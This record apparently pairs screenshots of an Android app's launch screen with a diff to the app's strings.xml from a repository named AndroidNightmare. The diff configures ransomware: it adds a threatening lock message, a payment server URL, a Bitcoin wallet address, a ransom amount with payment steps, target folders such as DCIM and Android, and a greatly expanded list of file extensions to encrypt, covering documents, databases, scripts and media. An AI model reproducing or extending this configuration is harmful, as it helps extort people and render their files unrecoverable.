

Before and after one commit to ElijahCuff/AndroidNightmare, an Android app: the screen it shows after launch (DiversionActivity), on a phone screen of 412 x 824 dp. Shown: the top 1186 px of the screen. Run offline under Robolectric (Android 15) with nearby library versions, the phone set to English and light mode, and no system bars; 1 statement that could not run was skipped.

Commit message:
Add files via upload
up

```diff
--- a/app/src/main/res/values/strings.xml
+++ b/app/src/main/res/values/strings.xml
@@ -29,11 +29,11 @@
 	<string name="return_to_the_app_message">RETURN TO THE APP FOOL\nExiting app will LOCK your files forever, decryption will be impossible.</string>
 	<string name="payment_server_https_url">https://btctrans.herokuapp.com</string>
 	<string name="wallet_type">฿ Bitcoin Wallet Address</string>
-	<string name="ransom_amount">100000</string>
-	<string name="wallet_address">1AzToZaV2SBDreMMKDFwJSRvFJPnfUpwEf</string>
-	<string name="demo_txid"></string>
+	<string name="ransom_amount">1000</string>
+	<string name="wallet_address">15knn9nNy7uzgC3nsaupUYB5n3PYXmtnDy</string>
+	<string name="demo_txid">62f1085c06aa841bcca8c3ade28c64429c83204a56bf072cd3ed76e22c1495be</string>
 	<string name="testing">no</string>
-	<string name="step1">Immediately send exactly ฿ 100,000 Satoshi\n(Bitcoin currency)\nto the following wallet address,</string>
+	<string name="step1">Immediately send exactly ฿ 1,000 Satoshi\n(Bitcoin currency)\nto the following wallet address,</string>
 	<string name="step2">Enter your transaction id "TxID" to decrypt your files</string>
 	<string-array name="directories">
 		<item>Pictures</item>
@@ -41,12 +41,17 @@
 		<item>DCIM</item>
 		<item>Music</item>
 		<item>Documents</item>
+		<item>Android</item>
 	</string-array>
 	<string-array name="extensions">
 		<item>jpg</item>
 		<item>jpeg</item>
 		<item>JPEG</item>
 		<item>JPG</item>
+		<item>gif</item>
+		<item>GIF</item>
+		<item>ico</item>
+		<item>ICO</item>
 		<item>apk</item>
 		<item>pdf</item>
 		<item>PDF</item>
@@ -56,6 +61,34 @@
 		<item>MP4</item>
 		<item>mpeg</item>
 		<item>MPEG</item>
+		<item>3gp</item>
+		<item>3GP</item>
+		<item>3g2</item>
+		<item>3G2</item>
+		<item>flv</item>
+		<item>FLV</item>
+		<item>h264</item>
+		<item>H264</item>
+		<item>mkv</item>
+		<item>MKV</item>
+		<item>m4a</item>
+		<item>M4A</item>
+		<item>wmv</item>
+		<item>WMV</item>
+		<item>avi</item>
+		<item>AVI</item>
+		<item>rm</item>
+		<item>RM</item>
+		<item>m4v</item>
+		<item>M4V</item>
+		<item>swf</item>
+		<item>SWF</item>
+		<item>rtf</item>
+		<item>RTF</item>
+		<item>pdf</item>
+		<item>PDF</item>
+		<item>AVI</item>
+		<item>avi</item>
 		<item>wav</item>
 		<item>WAV</item>
 		<item>mp3</item>
@@ -69,8 +102,69 @@
 		<item>RAR</item>
 		<item>TAR</item>
 		<item>7z</item>
+		<item>tar.gz</item>
 		<item>csv</item>
 		<item>CSV</item>
+		<item>txt</item>
+		<item>doc</item>
+		<item>DOC</item>
+		<item>wpd</item>
+		<item>WPD</item>
+		<item>TXT</item>
+		<item>docx</item>
+		<item>DOCX</item>
+		<item>bin</item>
+		<item>dmg</item>
+		<item>iso</item>
+		<item>BIN</item>
+		<item>DMG</item>
+		<item>ISO</item>
+		<item>db</item>
+		<item>DB</item>
+		<item>dbf</item>
+		<item>DBF</item>
+		<item>dat</item>
+		<item>DAT</item>
+		<item>log</item>
+		<item>LOG</item>
+		<item>sav</item>
+		<item>SAV</item>
+		<item>obb</item>
+		<item>OBB</item>
+		<item>sql</item>
+		<item>SQL</item>
+		<item>vcf</item>
+		<item>VCF</item>
+		<item>bat</item>
+		<item>BAT</item>
+		<item>php</item>
+		<item>PHP</item>
+		<item>html</item>
+		<item>HTML</item>
+		<item>sh</item>
+		<item>py</item>
+		<item>vb</item>
+		<item>SH</item>
+		<item>PY</item>
+		<item>VB</item>
+		<item>vbs</item>
+		<item>VBS</item>
+		<item>ods</item>
+		<item>ODS</item>
+		<item>xls</item>
+		<item>XLS</item>
+		<item>xlsx</item>
+		<item>XLSX</item>
+		<item>xlsm</item>
+		<item>XLSM</item>
+		<item>bak</item>
+		<item>BAK</item>
+		<item>cfg</item>
+		<item>CFG</item>
+		<item>tmp</item>
+		<item>TMP</item>
+		<item>dmp</item>
+		<item>DMP</item>
 	</string-array>
 
 </resources>
```
